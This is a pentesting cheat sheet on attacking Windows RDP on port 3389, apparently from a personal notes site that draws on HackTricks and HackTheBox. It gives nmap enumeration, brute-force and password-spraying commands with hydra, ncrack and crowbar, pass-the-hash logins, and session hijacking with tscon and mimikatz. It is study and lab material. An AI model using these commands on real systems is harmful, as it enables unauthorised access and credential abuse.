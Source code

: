 ```yaml
---
title: 3389 RDP
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - rdp
  - port 3389
  - mimikatz
---
```


# 3389 rdp

## Description

source: https://book.hacktricks.xyz/network-services-pentesting/pentesting-rdp and HackTheBox Academy.

Basic information about RDP service: Remote Desktop Protocol (RDP) is a proprietary protocol developed by Microsoft, which provides a user with a graphical interface to connect to another computer over a network connection. The user employs RDP client software for this purpose, while the other computer must run RDP server software (from here).

| Name | Description |
| ---- | ----------- |
| port | 3389/TCP | 
| state | open |
| service | ms-wbt-server |   
| version | Microsoft Terminal Services |
| Banner | rdp-ntlm-info |

RDP works at the application layer in the TCP/IP reference model, typically utilizing TCP port 3389 as the transport protocol. However, the connectionless UDP protocol can use port 3389 also for remote administration. The `Remote Desktop` service is installed by default on Windows servers and does not require additional external applications. This service can be activated using the `Server Manager` and comes with the default setting to allow connections to the service only to hosts with [Network level authentication](https://en.wikipedia.org/wiki/Network_Level_Authentication) (`NLA`).

## Enumeration

To check the available encryption and DoS vulnerability (without causing DoS to the service) and obtains NTLM Windows info (versions).

nmap uses RDPcookies (mstshash=nmap) to interact with the RDP server. These cookies can be identified by  security services such as EDRs, and can lock us out, so we need to think twice before running that scan.

```bash
nmap -Pn -sV -p3389 --script rdp-*  $ip
```

Results:
```
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-enum-encryption:
|   Security layer
|     CredSSP (NLA): SUCCESS
|     CredSSP with Early User Auth: SUCCESS
|_    RDSTLS: SUCCESS
| rdp-ntlm-info:
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2022-11-11T12:16:26+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

[rdp-sec-check.pl](https://github.com/CiscoCXSecurity/rdp-sec-check) is a perl script to enumerate security settings of an RDP Service (AKA Terminal Services).

```bash
git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check

./rdp-sec-check.pl $ip
```


## Connection with rdp

To run Microsoft’s Remote Desktop Protocol (RDP) client, a command-line interface called Microsoft Terminal Services Client (MSTSC) is used. 
We can connect to RDP servers on Linux using [xfreerdp](xfreerdp.md), [rdesktop](rdesktop.md), or Remmina and interact with the GUI of the server accordingly.

### xfreerdp

[See xfreerdp](xfreerdp.md).

We can first try to form an RDP session with the target by not providing any additional information for any switches other than the target IP address. This will make the script use your own username as the login username for the RDP session, thus testing guest login capabilities.

```bash
xfreerdp /v:$ip
# /v:$ip: Specifies the target IP of the host we would like to connect to.
```

Try to login with other default accounts, such as user, admin, Administrator, and so on.  We will also be specifying to the script that we would like to bypass all requirements for a security certificate so that our own script does not request them:

```bash
xfreerdp /cert:ignore /u:Administrator /v:$ip
# /cert:ignore : Specifies to the scrips that all security certificate usage should be ignored.
# /u:Administrator : Specifies the login username to be "Administrator".
# /v:$ip: Specifies the target IP of the host we would like to connect to.
```

If successful, during the initialization of the RDP session, we will be asked for a password. We can hit Enter to see if the process continue without one. 
Sometimes there are severe mishaps in configurations like this and we can gain access.

If you know user and credentials:

```bash
xfreerdp /u:<username> /p:<"password"> /v:$ip 
```


## Brute force

```
ncrack -vv --user <User> -P pwds.txt rdp://$ip
hydra -V -f -L <userslist> -P <passwlist> rdp://$ip
```
Be careful, you could lock accounts

## Password Spraying

Be careful, you could lock accounts

```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'

# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

## Connect with known credentials/hash

```bash
rdesktop -u <username> $ip
rdesktop -d <domain> -u <username> -p <password> $ip
xfreerdp [/d:domain] /u:<username> /p:<password> /v:$ip
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:$ip #Pass the hash
```

Check known credentials against RDP services

rdp_check.py from impacket let you check if some credentials are valid for a RDP service:

```
rdp_check <domain>/<name>:<password>@$ip
```

## Attacks

### Session stealing

With SYSTEM permissions you can access any opened RDP session by any user without need to know the password of the owner.

Get openned sessions:
```
query user
```

Access to the selected session
```
tscon <ID> /dest:<SESSIONNAME>
```

Now you will be inside the selected RDP session and you will have impersonate a user using only Windows tools and features.

Important: When you access an active RDP sessions you will kickoff the user that was using it.
You could get passwords from the process dumping it, but this method is much faster and led you interact with the virtual desktops of the user (passwords in notepad without been saved in disk, other RDP sessions opened in other machines...)

### Mimikatz

You could also use mimikatz to do this:
```
ts::sessions #Get sessions
ts::remote /id:2 #Connect to the session
```

Sticky-keys & Utilman
Combining this technique with stickykeys or utilman you will be able to access a administrative CMD and any RDP session anytime

You can search RDPs that have been backdoored with one of these techniques already with: https://github.com/linuz/Sticky-Keys-Slayer


### RDP Process Injection

If someone from a different domain or with better privileges login via RDP to the PC where you are an Admin, you can inject your beacon in his RDP session process and act as him:

### RDP Sessions Abuse

```
# Adding User to RDP group
net localgroup "Remote Desktop Users" UserLoginName /add
```

#### Shadow Attack

AutoRDPwn is a post-exploitation framework created in Powershell, designed primarily to automate the Shadow attack on Microsoft Windows computers. This vulnerability (listed as a feature by Microsoft) allows a remote attacker to view his victim's desktop without his consent, and even control it on demand, using tools native to the operating system itself.


https://github.com/JoelGMSec/AutoRDPwn

